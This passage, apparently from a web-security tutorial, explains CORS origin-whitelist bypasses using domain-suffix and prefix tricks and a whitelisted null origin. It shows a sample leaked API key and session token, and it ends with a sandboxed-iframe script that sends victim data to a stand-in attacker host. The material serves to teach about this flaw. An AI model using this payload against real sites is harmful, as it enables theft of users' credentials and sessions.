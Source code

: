 For example, suppose an application grants access to all *domains ending* in:
`normal-website.com`
An attacker might be able to gain access by registering the domain:
`hackersnormal-website.com`

Alternatively, suppose an application grants access to all *domains beginning* with
`normal-website.com`
An attacker might be able to gain access using the domain:
`normal-website.com.evil-user.net`

## Whitelisted null origin value
The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:
- Cross-origin redirects.
- Requests from serialized data.
- Request using the file: protocol.
- Sandboxed cross-origin requests.
Some applications might whitelist the null origin to support local development of the application. For example, suppose an application receives the following cross-origin request:

```http
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

And the server responds with:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true

{
  "username": "wiener",
  "email": "",
  "apikey": "70yQEWLDL4KFLipxEv7qFHlqRcCiK4RN",
  "sessions": [
    "qINofdLi8FW5PiLHWAxIMbsD9PCfmKLq"
  ]
}
```

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed `iframe` cross-origin request of the form:
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```
